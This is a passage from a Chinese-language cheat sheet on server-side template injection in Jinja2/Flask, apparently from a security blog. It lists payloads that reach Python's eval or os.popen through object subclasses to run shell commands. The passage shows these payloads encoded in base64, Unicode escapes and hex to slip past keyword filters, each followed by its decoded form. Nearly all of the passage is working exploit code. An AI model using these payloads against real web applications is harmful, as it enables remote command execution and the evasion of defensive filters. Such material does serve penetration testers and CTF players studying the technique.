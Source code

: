 ###### **base64编码**

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}
```

###### 利用Unicode编码

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}

```



等同于

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}

```

###### 利用Hex编码绕过关键字

和上面那个一样，只不过将Unicode编码换成了Hex编码，适用于过滤了“u”的情况。

我们可以利用hex编码的方法，绕过关键字过滤，例如：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```

等同于

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

###### 利用引号绕过

如下

